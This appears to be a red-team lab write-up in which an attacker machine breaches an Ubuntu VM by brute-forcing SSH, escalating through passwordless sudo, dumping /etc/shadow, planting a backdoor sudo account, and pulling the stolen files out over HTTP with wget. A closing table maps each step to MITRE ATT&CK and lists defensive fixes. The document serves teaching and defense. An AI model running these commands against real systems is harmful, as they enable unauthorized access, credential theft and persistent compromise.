






# ⚔️ Phase 1 — Red Team Attack Simulation

## Overview
Complete APT attack chain executed from Kali Linux against Ubuntu Server 24.04 victim machine on VMware internal network.

**Attacker:** 172.16.207.3 (Kali Linux)  
**Victim:** 172.16.207.4 (Ubuntu Server 24.04)  
**Date:** April 4, 2026 | 12:21 - 12:34 UTC  
**Duration:** ~13 minutes from recon to exfiltration  

---

## Step 1 — Reconnaissance (T1595)

```bash
nmap -sV -sC -O 172.16.207.4
```

**Result:** Discovered Apache 2.4.58 on port 80, SSH on port 22, Linux OS fingerprint.


---

## Step 2 — Brute-Force SSH (T1110.001)

```bash
echo -e "password\n123456\nadmin123\nroot123\npassword123" > passwords.txt
hydra -l admin -P passwords.txt ssh://172.16.207.4 -t 4 -V
```

**Result:** Cracked `admin:admin123` in 2 seconds on 3rd attempt.



---

## Step 3 — Initial Access (T1078)

```bash
ssh admin@172.16.207.4
whoami && hostname && id
```

**Result:** Shell obtained as admin (uid=1001), member of sudo group.



---

## Step 4 — Privilege Escalation (T1548.003)

```bash
sudo su
whoami && id
cat /etc/shadow
```

**Result:** Root access via passwordless sudo. /etc/shadow dumped revealing all password hashes.



---

## Step 5 — Persistence (T1136.001)

```bash
useradd -m -s /bin/bash backdoor
echo "backdoor:backdoor123" | chpasswd
usermod -aG sudo backdoor
echo "backdoor ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
cat /etc/passwd | grep backdoor
```

**Result:** Backdoor account created (uid=1002) with full sudo privileges.



---

## Step 6 — Data Exfiltration (T1048)

```bash
mkdir /tmp/exfil
cp /etc/passwd /etc/shadow /tmp/exfil/
echo "DB_PASSWORD=supersecret123" > /tmp/exfil/credentials.txt
tar -czf /tmp/stolen_data.tar.gz /tmp/exfil/
cd /tmp && python3 -m http.server 8888 &
```

On Kali (attacker):
```bash
wget http://172.16.207.4:8888/stolen_data.tar.gz
```

**Result:** 1364 bytes of sensitive data exfiltrated via HTTP.




---

## MITRE ATT&CK Summary

| Step | Tactic | Technique | ID |
|------|--------|-----------|-----|
| Recon | Reconnaissance | Active Scanning | T1595 |
| Brute-Force | Credential Access | Brute Force | T1110.001 |
| Initial Access | Initial Access | Valid Accounts | T1078 |
| PrivEsc | Privilege Escalation | Sudo Abuse | T1548.003 |
| Persistence | Persistence | Create Local Account | T1136.001 |
| Exfiltration | Exfiltration | Alt Protocol | T1048 |

---

## Vulnerabilities Found

| Vulnerability | Severity | Fix |
|--------------|----------|-----|
| Weak SSH password (admin123) | Critical | Enforce strong passwords + fail2ban |
| NOPASSWD sudo | Critical | Remove from /etc/sudoers |
| No account lockout | High | Install fail2ban |
| No egress filtering | High | Firewall rules |
